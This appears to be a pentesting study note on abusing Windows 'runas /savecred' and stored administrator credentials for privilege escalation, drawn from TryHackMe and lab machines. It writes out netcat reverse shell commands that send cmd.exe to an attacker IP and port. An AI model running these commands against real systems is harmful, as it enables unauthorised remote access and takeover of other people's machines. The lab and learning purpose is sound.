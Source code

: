 # Runas

With some sort of credentials we are able to run this command to execute commands as the user we would like to.&#x20;

The TryHackMe Throwback network had an elevation of privileges through this.

When we invoked SEATBELT.exe we saw that there were some credentials that were stored in the machine for an administrator. With this we were able to elevate privileges by running the command line as him.&#x20;

![](<../../../../../.gitbook/assets/image (19).png>)

We ran the following command:&#x20;

```
runas /savecred /user:THROWBACK-PROD\admin-petersj "cmd.exe"
or we could if we already transferred nc.exe we could just do "C:\nc.exe our-ip our-port -e cmd.exe"
```

Now in the case that we find some sort of vulnerability like we found on DVR4, once we have access to other credentials and we spray them across all attack vectors and they don't work, we are going to try this technique.

```
runas /env /profile /user:DVR4\Administrator "C:\Users\viewer\nc.exe -e cmd.exe 192.168.49.100 443"
Enter the password for DVR4\Administrator: 
```

![](<../../../../../.gitbook/assets/image (66).png>)
